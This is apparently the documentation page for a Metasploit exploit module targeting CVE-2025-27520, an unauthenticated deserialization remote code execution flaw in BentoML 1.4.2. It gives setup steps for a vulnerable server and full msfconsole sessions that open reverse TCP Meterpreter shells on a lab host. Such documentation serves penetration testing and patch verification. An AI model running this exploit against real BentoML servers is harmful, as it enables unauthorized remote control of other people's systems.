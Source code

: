 ## Vulnerable Application

A Remote Code Execution (RCE) vulnerability caused by insecure deserialization has been identified in the v1.4.2 of BentoML.
It allows any unauthenticated user to execute arbitrary code on the server.

The vulnerability affects:

    * 1.3.4 <= BentoML < 1.4.3

This module was successfully tested on:

    * BentoML 1.4.2 installed on Ubuntu 24.04


### Installation

1. `pip install -U bentoml==1.4.2`

2. Define APIs in a service.py file:

```python3
import bentoml


@bentoml.service(resources={"cpu": "2"})
class Summarization:
    @bentoml.api(batchable=True)
    def summarize(self, texts):
        return texts
```

3. `bentoml serve --host 0.0.0.0`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/bentoml_rce_cve_2025_27520`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options

###  ENDPOINT (optional)
Endpoint to use.


## Scenarios

### Python payload
```
msf6 > use exploit/linux/http/bentoml_rce_cve_2025_27520
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/http/bentoml_rce_cve_2025_27520) > options

Module options (exploit/linux/http/bentoml_rce_cve_2025_27520):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   ENDPOINT                   no        Endpoint to use
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     3000             yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                      no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python payload



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/bentoml_rce_cve_2025_27520) > set target Python\ payload
target => Python payload
msf6 exploit(linux/http/bentoml_rce_cve_2025_27520) > run lhost=192.168.56.1 rhost=192.168.56.16
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 1.4.2 detected, which is vulnerable.
[*] Use /summarize as api endpoint.
[*] Sending stage (24772 bytes) to 192.168.56.16
[*] Expected error occurred.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:34930) at 2025-04-16 21:44:13 +0900

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer        : vul
OS              : Linux 6.8.0-56-generic #58-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 14 15:33:28 UTC 2025
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > 
```

### Linux command
```
msf6 exploit(linux/http/bentoml_rce_cve_2025_27520) > set target Linux\ Command
target => Linux Command
msf6 exploit(linux/http/bentoml_rce_cve_2025_27520) > run lhost=192.168.56.1 rhost=192.168.56.16
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 1.4.2 detected, which is vulnerable.
[*] Use /summarize as api endpoint.
[*] Expected error occurred.
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.16:35272) at 2025-04-16 21:45:17 +0900

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.16
OS           : Ubuntu 24.04 (Linux 6.8.0-56-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
